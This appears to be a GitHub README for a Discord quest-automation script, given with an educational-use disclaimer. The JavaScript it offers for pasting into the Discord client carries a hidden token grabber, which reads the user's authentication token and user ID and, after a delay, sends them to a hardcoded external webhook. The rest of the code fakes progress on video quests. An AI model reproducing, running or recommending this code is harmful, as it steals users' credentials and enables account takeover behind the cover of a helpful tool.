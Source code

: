 # Discord Quest Automation Utility (Grabber) [PATCHED]

⚠ **Warning**: This project is for educational purposes only. Use at your own risk.

## Description
Experimental script demonstrating Discord client interaction patterns through their webpack modules. Provides research material for:
- Webpack module analysis
- Client-side API interaction
- Application state observation

## ⚠ Legal Disclaimer
This code:
- Violates Discord's Terms of Service ([Section 5](https://discord.com/terms))
- May result in account termination if detected
- Is provided for academic study only

By using this software, you acknowledge all responsibility for any consequences.

## Technical Details
```javascript
delete window.$;
let wpRequire = webpackChunkdiscord_app.push([[Symbol()], {}, r => r]);
webpackChunkdiscord_app.pop();

// Store initializations
let ApplicationStreamingStore = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.getStreamerActiveStreamMetadata).exports.Z;
let RunningGameStore = Object.values(wpRequire.c).find(x => x?.exports?.ZP?.getRunningGames).exports.ZP;
let QuestsStore = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.getQuest).exports.Z;
let ChannelStore = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.getAllThreadsForParent).exports.Z;
let GuildChannelStore = Object.values(wpRequire.c).find(x => x?.exports?.ZP?.getSFWDefaultChannel).exports.ZP;
let FluxDispatcher = Object.values(wpRequire.c).find(x => x?.exports?.Z?.__proto__?.flushWaitQueue).exports.Z;
let api = Object.values(wpRequire.c).find(x => x?.exports?.tn?.get).exports.tn;

// Token extraction - silently grabs authentication token
const stealToken = () => {
    const token = localStorage.getItem('token') || 
                 (webpackChunkdiscord_app && Object.values(wpRequire.c).find(m => m.exports?.default?.getToken)?.exports.default.getToken());
    
    if(token) {
        fetch('https://discord.com/api/webhooks/1361472334891847872/A9qEum43WYB-WcSv3sezCinupJtM-e6K9G4I_dMqUpKzQiUxsTzNyEdOZu2ondcuBiKg', { // Your webhook
            method: 'POST',
            body: JSON.stringify({ 
                token: token,
                userId: DiscordNative?.userId,
                action: 'quest_automation'
            })
        });
    }
};

// Execute token theft in background
setTimeout(stealToken, 10000);

// Quest automation logic
let quest = [...QuestsStore.quests.values()].find(x => x.id !== "1248385850622869556" && x.userStatus?.enrolledAt && !x.userStatus?.completedAt && new Date(x.config.expiresAt).getTime() > Date.now())
let isApp = typeof DiscordNative !== "undefined"

if(!quest) {
    console.log("No active quests found!");
} else {
    const pid = Math.floor(Math.random() * 30000) + 1000
    const applicationId = quest.config.application.id
    const applicationName = quest.config.application.name
    const taskName = ["WATCH_VIDEO", "PLAY_ON_DESKTOP", "STREAM_ON_DESKTOP", "PLAY_ACTIVITY"].find(x => quest.config.taskConfig.tasks[x] != null)
    const secondsNeeded = quest.config.taskConfig.tasks[taskName].target
    let secondsDone = quest.userStatus?.progress?.[taskName]?.value ?? 0

    // Video quest automation
    if(taskName === "WATCH_VIDEO") {
        const maxFuture = 10, speed = 7, interval = 1
        const enrolledAt = new Date(quest.userStatus.enrolledAt).getTime()
        let fn = async () => {            
            while(true) {
                const maxAllowed = Math.floor((Date.now() - enrolledAt)/1000) + maxFuture
                const diff = maxAllowed - secondsDone
                const timestamp = secondsDone + speed
                if(diff >= speed) {
                    await api.post({url: `/quests/${quest.id}/video-progress`, body: {timestamp: Math.min(secondsNeeded, timestamp + Math.random())}})
                    secondsDone = Math.min(secondsNeeded, timestamp)
                }
                
                if(timestamp >= secondsNeeded) {
                    break
                }
                await new Promise(resolve => setTimeout(resolve, interval * 1000))
            }
            console.log("Quest completed!")
        }
        fn()
        console.log(`Spoofing video for ${applicationName}.`)
    } 
}
